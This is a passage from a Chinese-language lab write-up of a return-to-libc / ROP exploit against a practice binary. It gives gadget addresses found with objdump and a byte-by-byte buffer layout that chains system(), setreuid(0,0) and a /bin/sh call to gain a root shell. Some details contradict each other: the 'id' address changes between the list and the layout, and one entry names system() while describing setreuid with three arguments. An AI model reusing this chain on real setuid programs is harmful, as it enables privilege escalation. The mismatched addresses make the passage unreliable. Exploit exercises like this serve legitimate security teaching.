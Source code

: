 得到各变量地址：

> /usr/bin/id: bffffe12
> id: bffffceb
> /bin/sh: bfffff66
> sh: bffffe7c

##### 载体位置

寻找pop-ret，由于有三个参数，需要找到能承载三个的地方

```bash
objdump -d q3
```

![image-20220301195856295](漏洞分析练习题/image-20220301195856295.png)

pop-pop-pop-ret：0x80485cd
pop-pop-ret：0x80485ce
pop-ret:0x80485cf

#### 发起攻击——构建输入

编写输入程序：rtlatt.c

> buffer数组首地址与变量i相差97个字节。故自buf[97]开始，并赋值i = 0x23456789
>
> buf[113]改成 system()函数的地址：0xb7e5f430
>
> buf[117]改成 pop-ret 的地址：0x80485cf（因为 system()只有一个参数， 所以只需要一个 pop 将栈指针抬一次） 
>
> buf[121]改成存放 system()的参数“/usr/bin/id”的环境变量的地址：0xbffffe12
>
> buf[125]改成 setreuid()的地址：0xb7f07870 
>
> buf[129]改成 pop-pop-ret 的地址：0x80485ce（因为 setreuid()有两个参数，所以需要两个 pop 将栈指针抬两次） 
>
> buf[133]和 buf[137]都改成 setreuid()的参数 0 的地址：0x00000000 
>
> buf[141]改成 system()函数的地址：0xb7e5f430
>
> buf[145]改成 pop-ret 的地址：0x80485cf
>
> buf[149]改成存放 system()的参数“id”的环境变量的地址：0xbffffe8a 
>
> buf[153]改成 system()函数的地址：0xb7ed85f0
>
> buf[157]改成 pop-pop-pop-ret 的地址：0x80485cd（因为 setreuid()有三个参数，所以需要三个 pop 将栈指针抬三次） 
>
> buf[161]改成存放 system()的参数“/bin/sh”的环境变量的地址：0xbfffff66
>
> buf[165]改成存放 system()的参数“sh”的环境变量的地址：0xbffffe7c
>
> buf[169]改成存放 system()的参数“NULL”的环境变量的地址：0x00000000
